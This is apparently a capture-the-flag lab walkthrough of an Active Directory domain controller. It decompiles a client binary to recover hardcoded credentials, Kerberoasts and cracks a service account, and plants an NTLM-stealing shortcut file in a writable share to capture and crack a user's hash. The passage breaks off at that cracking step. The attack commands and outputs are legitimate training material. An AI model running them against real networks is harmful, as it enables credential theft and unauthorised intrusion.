






# HackSmarter

## Machine: City Council

* IP: `10.X.XX.XXX`
* OS: `Windows`
* Difficulty: `Medium`

---

### Objective / Scope

A local municipality recently survived a devastating ransomware campaign. While their internal IT team believes the infection has been purged and the holes plugged, the Board of Supervisors isn't taking any chances. They’ve brought in Hack Smarter to provide a "second pair of eyes."

Your mission is to perform a comprehensive penetration test of the internal infrastructure. Reaching Domain Admin isn't the endgame; treat this like a real engagement. See how many vulnerabilities you're able to identify.

---

# 1. Reconnaissance

## 1.1 Port Scan

```Bash
PORT     STATE SERVICE       REASON  VERSION
53/tcp   open  domain        syn-ack (generic dns response: SERVFAIL)
| fingerprint-strings:
|   DNS-SD-TCP:
|     _services
|     _dns-sd
|     _udp
|_    local
80/tcp   open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: City Hall - Your Local Government
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2026-03-28 07:04:34Z)
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: city.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack
464/tcp  open  kpasswd5?     syn-ack
593/tcp  open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack
3268/tcp open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: city.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack
3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
|_ssl-date: 2026-03-28T07:05:04+00:00; 0s from scanner time.
| rdp-ntlm-info:
|   Target_Name: CITY
|   NetBIOS_Domain_Name: CITY
|   NetBIOS_Computer_Name: DC-CC
|   DNS_Domain_Name: city.local
|   DNS_Computer_Name: DC-CC.city.local
|   DNS_Tree_Name: city.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-03-28T07:04:56+00:00
| ssl-cert: Subject: commonName=DC-CC.city.local
| Issuer: commonName=DC-CC.city.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-02-26T17:26:36
| Not valid after:  2026-08-28T17:26:36
| MD5:     6b9a 3a36 385d f60a 43ef 3281 cafa 50fb
| SHA-1:   b9ad bca4 bad8 52b8 732f 3307 7b4b d035 f389 3ce2
| SHA-256: a202 075f e5d4 a424 3a39 d878 6602 745c 5259 2da8 b84b 098c 36a4 2b15 ddfb bca0
...[snip]...
5985/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.98%I=7%D=3/28%Time=69C77D91%P=x86_64-pc-linux-gnu%r(DNS-
SF:SD-TCP,30,"\0\.\0\0\x80\x82\0\x01\0\0\0\0\0\0\t_services\x07_dns-sd\x04
SF:_udp\x05local\0\0\x0c\0\x01");
Service Info: Host: DC-CC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 22223/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 22773/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 7205/udp): CLEAN (Failed to receive data)
|   Check 4 (port 53061/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-time:
|   date: 2026-03-28T07:04:59
|_  start_date: N/A
```

Nmap scan identifies the target as a Windows Server 2019 Domain Controller (`DC-CC.city.local`) with several critical entry points:

 - Port `53` ⤏ DNS (Domain Name Services)
 - Port `80` ⤏ IIS Web Server (City Hall Portal)
 - Port `88` ⤏ Kerberos (Authentication)
 - Port `135/139` ⤏ RPC/NetBIOS (Windows RPC)
 - Port `389/3268` ⤏ LDAP (Directory Services)
 - Port `445` ⤏ SMB (File Sharing) — Signing Required (blocks NTLM relay)
 - Port `593` ⤏ RPC over HTTP
 - Port `3389` ⤏ RDP (Remote Desktop)
 - Port `5985` ⤏ WinRM (Remote Management)

```Bash
# Update Hosts
➜ echo '10.X.XX.XXX     DC-CC.city.local city.local DC-CC' | sudo tee -a /etc/hosts
```

# 2. Web Application Analysis

## 2.1 Landing Page

Navigating to `http://city.local` (port 80) presents a standard municipal website titled **City Hall**.
The page contains generic welcome text, a mission statement, and navigation prompts ("Explore Our Services", "Get In Touch"). No immediate attack surface is visible beyond standard static content.



## 2.2 Digital Services Portal

Clicking through to the services section reveals a **Digital Services Portal** offering downloadable client applications for Windows and Linux.

The page lists two binaries:
- `Download for Windows` (8.7 MB)
- `Download for Linux (.bin)` (9.2 MB)

The presence of platform-specific client software introduces a potential vector for binary analysis or supply chain tampering.



## 2.3 Binary Analysis - Windows Client

The **Windows Version** download (`city_services_portal.exe`) was retrieved for analysis.

**Step 1: File Identification**

```Bash
➜ file city_services_portal.exe
city_services_portal.exe: PE32+ executable for MS Windows 6.00 (GUI), x86-64, 7 sections
```
The `file` command confirms this is a standard 64-bit Windows Portable Executable.

**Step 2: Detecting the Packager**

Running `strings` against the binary reveals telltale signs of PyInstaller packaging:

```Bash
➜ strings city_services_portal.exe | grep pyz
_pyinstaller_pyz
$'upyz1sp:
zPYZ.pyz
```

- `_pyinstaller_pyz` is a section name created by PyInstaller when bundling Python scripts.
- `pyz` refers to the **PYZ archive** — a compressed collection of Python bytecode modules (`.pyc` files) embedded within the executable.
- This indicates the application was written in Python and frozen into a standalone EXE using PyInstaller.

**Step 3: Extracting the Embedded Python Code**

`pyinstxtractor` is a specialized tool that unpacks PyInstaller-generated executables:

```Bash
➜ pyinstxtractor city_services_portal.exe
...[snip]...
[+] Possible entry point: city_services_portalv2.pyc
[+] Found 108 files in PYZ archive
[+] Successfully extracted pyinstaller archive: city_services_portal.exe
```
- The tool reconstructs the original Python environment, extracting compiled bytecode files (`.pyc`), shared libraries, and the main script entry point (`city_services_portalv2.pyc`).
- All extracted files are placed in a new directory: `city_services_portal.exe_extracted/`.

**Step 4: Decompiling the Bytecode**

Python `.pyc` files contain compiled bytecode. To recover the original logic, we use a decompiler like `pycdc`:

```Bash
➜ pycdc city_services_portal.exe_extracted/city_services_portalv2.pyc
...[snip]...
        self.username_b64 = 'c3ZjX3NlcnZpY2VzX3BvcnRhbA=='
        self.password_b64 = 'UG9ydEFsMTMzNw=='
```

- `pycdc` translates the bytecode back into readable Python source code.

- The output reveals hardcoded Base64-encoded credentials within the application.

**Step 5: Decoding the Credentials**

Base64 is encoding, not encryption. The values decode trivially:

```bash
➜ echo 'c3ZjX3NlcnZpY2VzX3BvcnRhbA==' | base64 -d
svc_services_portal

➜ echo 'UG9ydEFsMTMzNw==' | base64 -d
PortAl1337
```

- **Username:** `svc_services_portal`
- **Password:** `PortAl1337`

# 3. SMB Enumeration (Unauthenticated)

Initial anonymous and guest access attempts yielded minimal results:

```Bash
➜ nxc smb $ip -u '' -p ''
SMB         10.X.XX.XXX      445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.X.XX.XXX      445    DC-CC            [+] city.local\:

➜ nxc smb $ip -u 'jvar' -p 'jvar'
SMB         10.X.XX.XXX      445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.X.XX.XXX      445    DC-CC            [-] city.local\jvar:jvar STATUS_LOGON_FAILURE

➜ nxc smb $ip -u 'guest' -p ''
SMB         10.X.XX.XXX      445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.X.XX.XXX      445    DC-CC            [-] city.local\guest: STATUS_ACCOUNT_DISABLED
```

- Null authentication is permitted (`Null Auth:True`) but share enumeration is denied.
- Guest account is disabled.
- No default or weak credentials worked anonymously.


# 4. SMB Enumeration (Authenticated)

## 4.1 Validating Extracted Credentials

Using the credentials recovered from the binary (`svc_services_portal`:`PortAl1337`), access was tested across multiple protocols:

```Bash
➜ for proto in smb ldap rdp winrm; \
        do nxc $proto dc-cc.city.local \
                    -u 'svc_services_portal' -p 'PortAl1337'; \
            echo '----'; \
        done

SMB         10.X.XX.XXX      445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.X.XX.XXX      445    DC-CC            [+] city.local\svc_services_portal:PortAl1337
----
LDAP        10.X.XX.XXX      389    DC-CC            [*] Windows 10 / Server 2019 Build 17763 (name:DC-CC) (domain:city.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.X.XX.XXX      389    DC-CC            [+] city.local\svc_services_portal:PortAl1337
----
RDP         10.X.XX.XXX      3389   DC-CC            [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC-CC) (domain:city.local) (nla:True)
RDP         10.X.XX.XXX      3389   DC-CC            [+] city.local\svc_services_portal:PortAl1337
----
WINRM       10.X.XX.XXX      5985   DC-CC            [*] Windows 10 / Server 2019 Build 17763 (name:DC-CC) (domain:city.local)
WINRM       10.X.XX.XXX      5985   DC-CC            [-] city.local\svc_services_portal:PortAl1337
```

- The credentials are valid for **SMB**, **LDAP**, and **RDP**.
- **WinRM** access is denied — the account likely lacks the necessary permissions or group membership.

## 4.2 SMB Share Enumeration

With valid credentials, share enumeration became possible:

```Bash
➜ nxc smb dc-cc.city.local \
        -u 'svc_services_portal' -p 'PortAl1337' \
        --shares
SMB         10.X.XX.XXX      445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.X.XX.XXX      445    DC-CC            [+] city.local\svc_services_portal:PortAl1337
SMB         10.X.XX.XXX      445    DC-CC            [*] Enumerated shares
SMB         10.X.XX.XXX      445    DC-CC            Share           Permissions     Remark
SMB         10.X.XX.XXX      445    DC-CC            -----           -----------     ------
SMB         10.X.XX.XXX      445    DC-CC            ADMIN$                          Remote Admin
SMB         10.X.XX.XXX      445    DC-CC            Backups
SMB         10.X.XX.XXX      445    DC-CC            C$                              Default share
SMB         10.X.XX.XXX      445    DC-CC            IPC$            READ            Remote IPC
SMB         10.X.XX.XXX      445    DC-CC            NETLOGON        READ            Logon server share
SMB         10.X.XX.XXX      445    DC-CC            SYSVOL          READ            Logon server share
SMB         10.X.XX.XXX      445    DC-CC            Uploads
```

Notable non-default shares:
- **`Backups`** – Permissions unknown, potential sensitive data.
- **`Uploads`** – Permissions unknown, possible write access.


## 4.3 SMB Spidering

To map all readable files across shares:

```Bash
➜ nxc smb dc-cc.city.local \
        -u 'svc_services_portal' -p 'PortAl1337' \
        -M spider_plus --smb-timeout 5
...[snip]...
SPIDER_PLUS 10.X.XX.XXX     445    DC-CC            [+] Saved share-file metadata to "/home/deus/.nxc/modules/nxc_spider_plus/10.X.XX.XXX.json".
```

### 4.3.1 SYSVOL – Group Policy Files

The `SYSVOL` share contains domain-wide Group Policy Objects (GPOs). The spider output reveals two policy GUIDs with standard Group Policy files (`GPT.INI`, `GptTmpl.inf`, `Registry.pol`). No obvious credentials (e.g., GPP `cpassword`) were immediately visible from the file listing alone.

## 4.4 BloodHound Data Collection

With LDAP access confirmed, Active Directory enumeration was performed:

```Bash
➜ nxc ldap dc-cc.city.local \
        -u 'svc_services_portal' -p 'PortAl1337' \
        --bloodhound -c All --dns-server $ip
```

The resulting archive contains BloodHound JSON files ready for analysis to map domain relationships and identify potential paths toward gaining a foothold.

# 5. Kerberoasting Attack

## 5.1 BloodHound Discovery

Analysis of the collected BloodHound data revealed a single user account with a Service Principal Name (SPN) configured: **`CLERK.JOHN@CITY.LOCAL`**. Accounts with SPNs are vulnerable to Kerberoasting, allowing an authenticated attacker to request and crack their service ticket hash offline.



## 5.2 Extracting the Service Ticket

Using the validated credentials (`svc_services_portal:PortAl1337`), the service ticket for `clerk.john` was requested via `nxc`:

```Bash
➜ nxc ldap dc-cc.city.local \
            -u 'svc_services_portal' -p 'PortAl1337' \
            --kerberoasting roast.out

LDAP        10.X.XX.XXX      389    DC-CC            [*] Windows 10 / Server 2019 Build 17763 (name:DC-CC) (domain:city.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.X.XX.XXX      389    DC-CC            [+] city.local\svc_services_portal:PortAl1337
LDAP        10.X.XX.XXX      389    DC-CC            [*] Skipping disabled account: krbtgt
LDAP        10.X.XX.XXX      389    DC-CC            [*] Total of records returned 1
LDAP        10.X.XX.XXX      389    DC-CC            [*] sAMAccountName: clerk.john, memberOf: [], pwdLastSet: 2025-10-24 19:56:28.614558, lastLogon: 2026-02-27 20:28:43.208008
LDAP        10.X.XX.XXX      389    DC-CC            $krb5tgs$23$*clerk.john$CITY.LOCAL$city.local\clerk.john*$894e214afd20ff1704a74f43ec0fbcbe$7874dc9a8f3cbb1b1b23488f1593c93b43f75b5c2e5d078721c29bf04292561baf7fbdd857ceffffa519957bc2feb7ce54d35fe00d339b2b9af7fdd91a1a22c905fadf52e463d1e2e3c29e7c96bc567c977415cca53d89d2161c0611f995b7ebce0e66...[snip]...
32f63dbe6ef6a531e290796da333c4de7ebff4212a76ef82585e475bc89d097e1491dc2d92aa799d22
```

## 5.3 Cracking the Hash

The extracted Kerberos TGS hash (format `krb5tgs`, mode `13100`) was cracked offline using `hashcat` with the `rockyou.txt` wordlist:

```Bash
➜ hashcat -a 0 -m 13100 clerk.john.hash /opt/rockyou.txt
...[snip]...
$krb5tgs$23$*clerk.john$CITY.LOCAL$city.local\clerk.john*$894e214afd20ff1704a74f43ec0fbcbe...[snip]...7ebff4212a76ef82585e475bc89d097e1491dc2d92aa799d22:clerkhill
```

**Recovered Credentials**:
- **Username**: `clerk.john`
- **Password**: `clerkhill`

## 5.4 Validating `clerk.john` Credentials

The newly recovered credentials (`clerk.john:clerkhill`) were tested across available services:

```Bash
➜ for proto in smb ldap rdp winrm; \
        do nxc $proto dc-cc.city.local \
                    -u 'clerk.john' -p 'clerkhill'; \
            echo '----'; \
        done
SMB         10.X.XX.XXX      445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.X.XX.XXX      445    DC-CC            [+] city.local\clerk.john:clerkhill
----
LDAP        10.X.XX.XXX      389    DC-CC            [*] Windows 10 / Server 2019 Build 17763 (name:DC-CC) (domain:city.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.X.XX.XXX      389    DC-CC            [+] city.local\clerk.john:clerkhill
----
RDP         10.X.XX.XXX      3389   DC-CC            [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC-CC) (domain:city.local) (nla:True)
RDP         10.X.XX.XXX      3389   DC-CC            [+] city.local\clerk.john:clerkhill
----
WINRM       10.X.XX.XXX      5985   DC-CC            [*] Windows 10 / Server 2019 Build 17763 (name:DC-CC) (domain:city.local)
WINRM       10.X.XX.XXX      5985   DC-CC            [-] city.local\clerk.john:clerkhill
```

- The credentials grant access to **SMB**, **LDAP**, and **RDP**.
- **WinRM** remains inaccessible, similar to the previous account.

## 5.5 SMB Share Enumeration & File Discovery

Using `clerk.john`'s credentials, the SMB shares were enumerated again. Notably, the `Uploads` share now shows **READ,WRITE** permissions:

```Bash
➜ nxc smb dc-cc.city.local \
        -u 'clerk.john' -p 'clerkhill' \
        -M spider_plus --smb-timeout 5
SMB         10.X.XX.XXX     445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)

...[snip]...

SMB         10.X.XX.XXX     445    DC-CC            Share           Permissions     Remark
SMB         10.X.XX.XXX     445    DC-CC            -----           -----------     ------
SMB         10.X.XX.XXX     445    DC-CC            ADMIN$                          Remote Admin
SMB         10.X.XX.XXX     445    DC-CC            Backups
SMB         10.X.XX.XXX     445    DC-CC            C$                              Default share
SMB         10.X.XX.XXX     445    DC-CC            IPC$            READ            Remote IPC
SMB         10.X.XX.XXX     445    DC-CC            NETLOGON        READ            Logon server share
SMB         10.X.XX.XXX     445    DC-CC            SYSVOL          READ            Logon server share
SMB         10.X.XX.XXX     445    DC-CC            Uploads         READ,WRITE
```

The output revealed an email file of interest:

```Bash
        },
        "Staff_Contacts.txt": {
            "atime_epoch": "2025-10-28 03:50:21",
            "ctime_epoch": "2025-10-28 03:36:35",
            "mtime_epoch": "2025-10-28 03:50:21",
            "size": "751 B"
        },
        "WriteAccess_Jon.Peters_DC-CC-Uploads.eml": {
            "atime_epoch": "2026-02-06 15:25:07",
            "ctime_epoch": "2025-10-28 03:47:27",
            "mtime_epoch": "2026-02-06 15:25:07",
            "size": "1.14 KB"
        }
    }
}
```

The email file was downloaded for inspection:

```Bash
➜ nxc smb dc-cc.city.local \
        -u 'clerk.john' -p 'clerkhill' \
        --share Uploads \
        --get-file 'WriteAccess_Jon.Peters_DC-CC-Uploads.eml' './WriteAccess_Jon.Peters_DC-CC-Uploads.eml'
```

### 5.5.1 Discovery: Email with Write Access Information

Among the downloaded files, an email (`WriteAccess_Jon.Peters_DC-CC-Uploads.eml`) was found in the `Uploads` share:

```Bash
➜ cat WriteAccess_Jon.Peters_DC-CC-Uploads.eml
Subject: Write access to \DC-CC\Uploads has been granted

From: Emma Hayes emma.hayes@city.local

To: Jon Peters jon.peters@city.local

Date: Fri, 24 Oct 2025 10:42:00 +0100

Hi Jon,

Quick note: I’ve granted you write access to the shared folder \\DC-CC\Uploads. The folder is mapped as drive Z: on your workstation — you should be able to create, edit and upload files there.

The following files are already in the Uploads folder and appear to be actively edited by you:


Staff_Contacts.txt


If the drive does not connect automatically, you can map it manually (you will be prompted for your domain credentials):

net use Z: \\DC-CC\Uploads /user:city.local\jon.peters


Please note: the share uses NTLM authentication. If you connect from an unfamiliar or public device and see an authentication prompt, do not enter your credentials on that device — contact the IT Helpdesk so we can verify the endpoint before you proceed.

If you encounter any issues saving files or the mapping does not persist after reboot, let me know and I’ll check the mapping remotely.

Best regards,
Emma Hayes
IT Helpdesk – City Council
```

**Key Findings:**
- The `Uploads` share is writable by the user `jon.peters`.
- The email contains explicit instructions for mapping the share with domain credentials.
- This information may enable a targeted NTLM relay or coercion attack if `jon.peters` can be reached.

# 6. NTLM Hash Capture via Share Upload

## 6.1 Crafting and Uploading a Malicious Shortcut

The email discovered in the `Uploads` share revealed that `jon.peters` actively edits `Staff_Contacts.txt`. To coerce an NTLM authentication attempt, a shortcut file (`.lnk`) was created using `ntlm_theft` with a filename that blends in with legitimate files. When accessed, the shortcut attempts to load an icon from an attacker-controlled SMB share, causing the victim's machine to send an NTLMv2 hash.

```Bash
# Generate a modern coercion file with a contextual name
➜ ntlm_theft -g modern -s 10.XX.XX.XX -f Staff_Contacts_Updated

# Start Responder to capture incoming hashes
⚡ responder -I tun0

# Upload the specific .lnk file to the share
➜ nxc smb dc-cc.city.local \
        -u 'clerk.john' -p 'clerkhill' \
        --share 'Uploads' \
        --put-file Staff_Contacts_Updated/Staff_Contacts_Updated.lnk Staff_Contacts_Updated.lnk
```

Shortly after the upload, `responder` captured an NTLMv2 hash for `jon.peters`:

```Bash
[SMB] NTLMv2-SSP Client   : 10.XX.XX.XX
[SMB] NTLMv2-SSP Username : CITY\jon.peters
[SMB] NTLMv2-SSP Hash     : jon.peters::CITY:cff5fa63924d88af:2FE6DD54B7A910288926838A0E80BE8A:010100000000000080234E9F035BDC012E09A65D1ED260090000000002000800550030005500520001001E00570049004E002D00340043003900330030005100480045004F004800580004003400570049004E002D00340043003900330030005100480045004F00480058002E0055003000550052002E004C004F00430041004C000300140055003000550052002E004C004F00430041004C000500140055003000550052002E004C004F00430041004C000700080080234E9F035BDC010600040002000000080030003000000000000000000000000020000067EC76294070FB214FF944D4BE8BDA3409F04B00D08E33AC493CB2E3FB80606E0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E0039002E0031002E003100320038000000000000000000
```

## 6.2 Cracking the NTLMv2 Hash

The captured NetNTLMv2 hash was cracked offline using `hashcat` mode `5600`:

```Bash
➜ hashcat -a 0 -m 5600 jon.peters.hash /opt/rockyou.txt
...[snip]...
